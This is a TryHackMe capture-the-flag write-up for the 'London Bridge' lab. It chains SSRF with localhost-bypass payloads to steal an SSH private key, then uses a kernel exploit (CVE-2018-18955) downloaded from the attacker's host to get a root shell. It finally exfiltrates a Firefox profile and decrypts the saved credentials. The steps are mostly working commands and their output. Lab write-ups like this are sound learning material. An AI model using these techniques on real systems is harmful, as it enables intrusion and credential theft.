 # The London Bridge - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Found SSRF via hidden `www` parameter → SSH key theft → user flag → exploited kernel vulnerability `(CVE-2018-18955)` → root access -> extracted `Charles` password from FireFox profile.
---------------------------
## Target
- Machine: `LondonBridge`  
- Date: `2025-10-19`  
- Environment: TryHackMe / CTF
---------------------------

## Steps 
1. Initial scan:

```bash

└─$ nmap -sV -sC -Pn -T4 10.10.220.239                             

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Gunicorn
|_http-title: Explore London
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://10.10.220.239:8080/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.php.bak,.txt

/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/view_image           (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]

```



3. In the dejaview page, we discovered an image upload functionality via URL using the image_url parameter.
![image_url-parameter](images/POST-REQ-View-2.png)
 Following the hint about checking for development leftovers, we fuzzed for hidden parameters.

4. Parameter Discovery with FFuf:

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "FUZZ=test" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,823 -mc all 


www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 122ms]

```
Found parameter `www`

-------------------------
### SSRF (Server-Side Request Forgery)


1. Internal Network Mapping

 Using localhost bypass techniques:

Referenced localhost bypass methods from: [SSRF Cheat Sheet](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://FUZZ" -w localhosts.txt -fs 0,823 -mc all -H 'Content-Type: application/x-www-form-urlencoded'


127.1:8080              [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 204ms]
127.0.1                 [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
017700000001            [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
0/                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1                   [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1.1.1:8080#\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080:\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 394ms]
127.1.1.1:8080\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 628ms]

```

`127.1:80` Internal service discovered 

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/"  

```
2. Fuzzing :

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://127.1:80/FUZZ" -w /usr/share/wordlists/dirb/common.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,469 -mc 


.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 205ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 205ms]
                        [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 205ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 206ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 206ms]
index.html              [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 351ms]
static                  [Status: 200, Size: 420, Words: 19, Lines: 18, Duration: 150ms]
templates               [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 132ms]
uploads                 [Status: 200, Size: 630, Words: 23, Lines: 22, Duration: 228ms]

```
SSH directory accessible!  

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh"
.
.
<h1>Directory listing for /.ssh/</h1>
<hr>
<ul>
<li><a href="authorized_keys">authorized_keys</a></li>
<li><a href="id_rsa">id_rsa</a></li>
.
.

```
3. Download the private key :
```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh/id_rsa" > id_rsa

chmod 600 id_rsa
```
User Identified: `beth` (from authorized_keys)

----------------

## user flag 

Connect via SSH and get the user flag from `__pycache__`:
```bash
└─$ ssh -i id_rsa beth@londonbridge.thm 


beth@london:~$ cat __pycache__/user.txt 
THM{[REDACTED]}
```

-----------------

## root flag

```bash

beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


### CVE:2018-18955

Description

In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction.

------------------------

1. Clone the repo in your machine and run python web server

```bash
└─$ git clone https://github.com/scheatkode/CVE-2018-18955.git

└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
 
2. Download it in target machine using `wget -r `

```bash
beth@london:~$ wget -r http://10.9.1.6:8000/CVE-2018-18955
```
3. Change the permissions to be exectuable and run `exploit.dbus.sh`

```bash
beth@london:~/CVE-2018-18955$ chmod +x exploit.dbus.sh
beth@london:~/CVE-2018-18955$ ./exploit.dbus.sh 


[*] Launching root shell: /tmp/sh
root@london:/root# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
```
4. get root flag :
```bash
root@london:/root# cat .root.txt 
THM{REDACTED}
```
---------------------------

## password of charles
there firefox profile in `charles` home directory

We gonna use python script to steal firefox passwords 
you can download it from `https://github.com/unode/firefox_decrypt`


1. Download `8k3bf3zp.charles` to your machine via python server.

```bash
root@london:/home/charles/.mozilla/firefox# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
2. In your machine :
```bash
└─$ wget -r http://londonbridge.thm:8000/8k3bf3zp.charles
```
3. After download the profile run the script :
```bash
└─$ python3 firefox_decrypt.py londonbridge.thm:8000/8k3bf3zp.charles 
2025-10-20 06:18:01,266 - WARNING - profile.ini not found in londonbridge.thm:8000/8k3bf3zp.charles
2025-10-20 06:18:01,267 - WARNING - Continuing and assuming 'londonbridge.thm:8000/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

 .
